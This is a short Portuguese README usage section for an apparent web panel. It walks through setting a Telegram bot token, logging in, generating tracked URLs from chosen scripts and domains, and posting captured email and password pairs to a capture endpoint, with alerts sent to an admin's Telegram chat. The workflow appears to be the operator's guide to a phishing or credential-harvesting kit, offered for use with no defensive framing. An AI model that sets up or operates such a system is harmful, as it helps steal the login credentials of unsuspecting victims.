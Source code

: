 ## Exemplo de Uso Completo

### 1. Configurar Sistema
```bash
export TELEGRAM_BOT_TOKEN="seu_token_aqui"
export TELEGRAM_ADMIN_CHAT_ID="seu_chat_id_admin"
```

### 2. Fazer Login
```bash
curl -X POST http://localhost:5000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username": "usuario", "password": "123456"}'
```

### 3. Gerar URL
```bash
curl -X POST http://localhost:5000/api/urls/generate \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <token>" \
  -d '{"script_id": 1, "domain_id": 1}'
```

### 4. Acessar URL Gerada
```bash
curl http://localhost:5000/api/tracking/track/abc123def456
```

### 5. Simular Captura de Dados
```bash
curl -X POST http://localhost:5000/api/tracking/capture/abc123def456 \
  -H "Content-Type: application/json" \
  -d '{"email": "teste@exemplo.com", "password": "senha123"}'
```

Após estes passos, as notificações serão enviadas automaticamente via Telegram!

